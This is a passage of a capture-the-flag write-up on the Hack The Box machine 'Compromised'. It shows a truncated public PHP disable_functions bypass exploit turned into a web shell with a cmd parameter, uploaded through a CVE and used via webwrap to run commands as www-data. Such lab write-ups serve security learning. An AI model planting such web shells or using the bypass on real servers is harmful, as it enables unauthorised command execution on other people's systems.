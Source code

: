Scrolling through the phpinfo output, we can see a lot of information about the host `compromised` as well as the php version `7.2.24-0ubuntu0.18.04.6` and the fact that there are a lot of disabled functions that will make it hard for us to get command execution on the server. After a lot of searching on the internet, I found this [exploit](https://raw.githubusercontent.com/mm0r1/exploits/master/php7-gc-bypass/exploit.php) on github, that uses old php bugs to bypass the `disable_functions` config. 

```PHP
<?php
# PHP 7.0-7.3 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=72530
#
# This exploit should work on all PHP 7.0-7.3 versions
#
# Author: https://github.com/mm0r1

pwn($_GET["cmd"]);

function pwn($cmd) {
    global $abc, $helper;
    ...
...
```

>I added a simple `$_GET["cmd"]` to get a pseudo-shell ad `www-data`

I created the php bypass file `freeze.php` and uploaded it using the CVE and tried visiting `http://10.10.10.207/shop/vqmod/xml/freeze.php?cmd=id` and ...

![img](https://github.com/FreezeLuiz/CTF-Writeups/blob/master/Boxes/htb-compromised/images/htb-compromised-php-bypass.PNG "Tadaa!!")

We have our first user, and the journey is just getting started. 

## Bonus Pseudo-Shell using [Webwrap](https://github.com/mxrch/webwrap)

Just visit the repo and install webwrap, use the syntax `webwrap http://10.10.10.207/shop/vqmod/xml/freeze.php?cmd=WRAP` and you should get a Pseuto-shell as www-data

```sh
kali@kali:~/Documents/HackTheBox/compromised$ webwrap http://10.10.10.207/shop/vqmod/xml/freeze.php?cmd=WRAP

www-data@compromised:/var/www/html/shop/vqmod/xml$ uname -a && id
Linux compromised 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
